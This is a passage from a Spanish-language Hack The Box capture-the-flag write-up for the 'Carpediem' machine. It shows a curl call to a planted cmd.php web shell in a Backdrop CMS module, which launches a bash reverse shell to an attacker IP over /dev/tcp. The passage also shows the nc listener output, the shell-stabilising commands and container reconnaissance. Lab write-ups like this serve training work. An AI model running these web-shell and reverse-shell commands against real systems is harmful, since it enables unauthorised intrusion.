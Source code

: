 Lo instalo en el CMS

<img src="/writeups/assets/img/Carpediem-htb/37.png" alt="">

<img src="/writeups/assets/img/Carpediem-htb/38.png" alt="">

Gano acceso al sistema

```null
curl -s -X GET "https://localhost:8002/modules/ckeditor_blocks/cmd.php?cmd='bash+-c'bash+-i>%26+/dev/tcp/10.10.16.7/443+0>%261'" -k
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.167] 52292
bash: cannot set terminal process group (281): Inappropriate ioctl for device
bash: no job control in this shell
www-data@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ script /dev/null -c bash
<p/modules/ckeditor_blocks$ script /dev/null -c bash                  
Script started, output log file is '/dev/null'.
www-data@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
<www/html/backdrop/modules/ckeditor_blocks$ reset xterm
<www/html/backdrop/modules/ckeditor_blocks$ export TERM=xterm                
LL=basha@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ export SHE 
55 columns 209522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ stty rows  
www-data@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ 
```

Estoy dentro de otro contenedor

```null
www-data@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ whoami
www-data
www-data@90c7f522b842:/var/www/html/backdrop/modules/ckeditor_blocks$ hostname -I
172.17.0.2 
```
